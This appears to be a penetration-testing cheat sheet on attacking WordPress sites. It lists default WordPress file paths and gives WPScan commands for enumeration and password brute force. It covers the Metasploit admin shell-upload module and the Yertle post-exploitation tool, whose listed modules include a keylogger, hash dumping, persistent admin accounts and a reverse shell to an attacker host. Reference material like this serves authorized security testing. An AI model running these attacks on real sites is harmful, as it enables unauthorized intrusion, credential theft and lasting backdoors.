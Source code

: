 # Web applications - CMS WordPress

WordPress is a free and open-source content management system (CMS) developed by
the WordPress.org foundation and based on PHP and MySQL.

WordPress is, by far, the most popular website management system in use with a
CMS market share of nearly sixty percent and used by more than 60 million
websites, including 30.6% of the top 10 million websites as of April 2018.

WordPress' plugin architecture allows users to extend the features and
functionality of a website or blog. As of March 2017, WordPress has over
55,286 plugins available.

### WordPress default URL

The following files and directories can be found on a default installation of
WordPress:

```
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-app.php
wp-atom.php
wp-blog-header.php
wp-comments-post.php
wp-commentsrss2.php
wp-config-sample.php
wp-content
wp-cron.php
wp-feed.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-pass.php
wp-rdf.php
wp-register.php
wp-rss2.php
wp-rss.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
...
```

Refer to the SecLists' `Discovery/Web-Content/CMS/wordpress.fuzz.txt` wordlist
for a more exhaustive list of URL.

### WPScan

WPScan is a well-known vulnerability scanner written in Ruby for WordPress
which focus on vulnerabilities in WordPress core, themes, and plugins.

The WPScan vulnerability database is public and count, as of December 2018,
11665 vulnerabilities. The database is hosted on the following host:

```
https://wpvulndb.com/
```

Usage:

```
# Update the WordPress Core, themes and plugins vulnerability database
wpscan --update

wpscan --url <URL>

# Enumerate installed plugins | themes | users | timthumbs
wpscan --url <URL> --enumerate < p | t | u | tt >

# Wordlist password brute force on enumerated users using 50 threads
wpscan --url <URL> --wordlist <WORDLIST_PASSWORDS> --threads 50

# Wordlist usernames and password brute force using 50 threads
wpscan <URL> (--username <USERNAME> | --usernames <WORDLIST_USERNAMES>) --wordlist <WORDLIST_PASSWORDS> --threads 50
```

### Administrator to RCE

The tools presented below require valid WordPress administrator credentials.

###### Metasploit

The Metasploit module `exploit/unix/webapp/wp_admin_shell_upload` can be used
to generate a plugin packed with a Metasploit payload and upload it to the
WordPress server.

```
msf> use exploit/unix/webapp/wp_admin_shell_upload
```

###### WPForce Yertle

Part of the WPForce suite of Wordpress attack tools, Yertle is a WordPress
post-exploitation python script.

The following modules are implemented:

```
beef            Injects a BeEF hook into website
dbcreds         Prints the database credentials
exit            Terminate the session
hashdump        Dumps all WordPress password hashes
help            Help menu
keylogger       Patches WordPress core to log plaintext credentials
keylog          Displays keylog file
meterpreter     Executes a PHP meterpreter stager (php/meterpreter/reverse_tcp) to connect to metasploit
persist         Creates an admin account that will re-add itself
quit            Terminate the session
shell           Sends a TCP reverse shell to a netcat listener
stealth         Hides Yertle from the plugins page
```

Usage:

```
# Bind OS shell including the modules above
python yertle.py -u <USERNAME> -p <PASSWORD> -t <URL> -i
os-shell> help | hashdump | persist | whoami | ...

# Reverse OS shell - works with a netcat listener
python yertle.py -u <USERNAME> -p <PASSWORD> -t <URL> -r -li <LHOST> -lp <LPORT>
```
